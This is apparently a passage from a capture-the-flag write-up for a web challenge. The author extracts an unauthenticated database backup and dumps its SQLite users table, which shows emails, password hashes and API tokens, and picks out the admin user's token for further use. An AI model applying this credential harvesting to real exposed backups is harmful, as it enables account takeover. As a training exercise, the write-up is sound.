 Worked -- no authentication required!

```bash
juancho💀hackbox:Web$ file v1_db_backup_1604123342.tar.gz
v1_db_backup_1604123342.tar.gz: POSIX tar archive (GNU)
juancho💀hackbox:Web$ 
# rename:
juancho💀hackbox:baby-nginxatsu$ mv v1_db_backup_1604123342.tar.gz v1_db_backup_1604123342.tar
juancho💀hackbox:baby-nginxatsu$ tar tf v1_db_backup_1604123342.tar
database/database.sqlite
juancho💀hackbox:baby-nginxatsu$ tar xf v1_db_backup_1604123342.tar
juancho💀hackbox:baby-nginxatsu$ file database/database.sqlite 
database/database.sqlite: SQLite 3.x database, last written using SQLite version 3033000, file counter 65, database pages 10, cookie 0x8, schema 4, UTF-8, version-valid-for 65
juancho💀hackbox:baby-nginxatsu$ 
```

It's a SQLite database. Inspect:

```sql
SQLite version 3.36.0 2021-06-18 18:36:39
Enter ".help" for usage hints.
sqlite> .tables
failed_jobs      nginx_configs    users          
migrations       password_resets
sqlite> .headers on
sqlite> SELECT * FROM users;
id|name|email|password|api_token|remember_token|created_at|updated_at
1|jr|nginxatsu-adm-01@makelarid.es|e7816e9a10590b1e33b87ec2fa65e6cd|eKKhcLmo8t79oNRiyAsSKHXIX4Y2ERUDN30eANwo36FYBthTcUWJQKYKejMMZoeA1NTt||2021-12-28 17:34:34|2021-12-28 17:34:34
2|Giovann1|nginxatsu-giv@makelarid.es|7b338014fa4076d52202957492855bf4|LcMa92G8wVj4VhSyM1gbSgAL0NMWRe79cQ3e8IlTdYK7OvVrpANv8dRJD9B4czJVmemC||2021-12-28 17:34:34|2021-12-28 17:34:34
3|me0wth|nginxatsu-me0wth@makelarid.es|aedbe32c58377ab5485e4fb3542386d3|akIzwvfdmipat7iC19rgFCeaaDijE5JYEs1FAPORtu4wviFzXbVxM6ILGEGxOpw2Axhe||2021-12-28 17:34:34|2021-12-28 17:34:34
sqlite> 
```

There is one interesting 'admin' user `jr` with email address `nginxatsu-adm-01@makelarid.es`:

- `api_token`: eKKhcLmo8t79oNRiyAsSKHXIX4Y2ERUDN30eANwo36FYBthTcUWJQKYKejMMZoeA1NTt

This user also has these in "nginx_configs":

```txt
sqlite> SELECT * FROM nginx_configs WHERE user_id = 1;
id|user_id|file_name|created_at|updated_at
1|1|nginx_61cb4aaaf03ba|2021-12-28 17:34:34|2021-12-28 17:34:34
8|1|nginx_61cb4aab0fb3b|2021-12-28 17:34:35|2021-12-28 17:34:35
17|1|nginx_61cb4aab14292|2021-12-28 17:34:35|2021-12-28 17:34:35
20|1|nginx_61cb4aab1598d|2021-12-28 17:34:35|2021-12-28 17:34:35
22|1|nginx_61cb4aab16a4f|2021-12-28 17:34:35|2021-12-28 17:34:35
34|1|nginx_61cb4aab1caa4|2021-12-28 17:34:35|2021-12-28 17:34:35
36|1|nginx_61cb4aab1e5c6|2021-12-28 17:34:35|2021-12-28 17:34:35
42|1|nginx_61cb4aab214c3|2021-12-28 17:34:35|2021-12-28 17:34:35
49|1|nginx_61cb4aab24853|2021-12-28 17:34:35|2021-12-28 17:34:35
sqlite> 
```
